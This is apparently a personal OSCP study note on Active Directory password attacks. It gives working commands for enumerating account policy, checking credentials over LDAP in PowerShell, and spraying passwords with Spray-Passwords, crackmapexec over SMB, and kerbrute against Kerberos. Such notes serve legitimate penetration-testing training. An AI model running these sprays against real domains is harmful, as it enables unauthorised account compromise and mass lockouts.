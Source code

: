 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/13. Active Directory Attacks/2. Password Attacks/"}
---
```


------
Enumerate account policy:
```
net accounts
```
---------------
### Manual LDAP Password Attack:
- Local method
- Low and slow attack method
- Run lines separately or as a script
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<user>", "<password>")
```
- If credentials are correct the object creation is successful
--------------
### Automatic LDAP Attack with Spray-Passwords:
- https://github.com/ZilentJack/Spray-Passwords
- Does not require any admin access.
- Generates a lot of traffic and is not opsec safe
- Usage:
```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

#Multiple passwords: -Pass 'Password1,Password2'
#Download wordlist: -Url <url>
```
--------------
### SMB Password Attack with crackmapexec:
- Remote method
- Crackmap does not take password policy into account so be cautious
- Traditional attack approach in AD
- Drawback that full SMB connection has to be made for every try
- Very noisy and quite slow
```bash
sudo crackmapexec smb <ip-on-domain> -u users.txt -p 'Nexus123!' -d <domain> --continue-on-success
```
- "Pwn3d!" indicates admin user!
----------
### Kerberos TGT Attack with kerbrute:
- Cross-platform method
- If username and password are correct a cached Kerberos ticket is obtained.
- Only uses two UDP frames every try (only AS-REQ).
- Local usage:
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d <domain> .\usernames.txt "password123!"
```
- If receives network error make sure usernames file is of ANSI encoding.
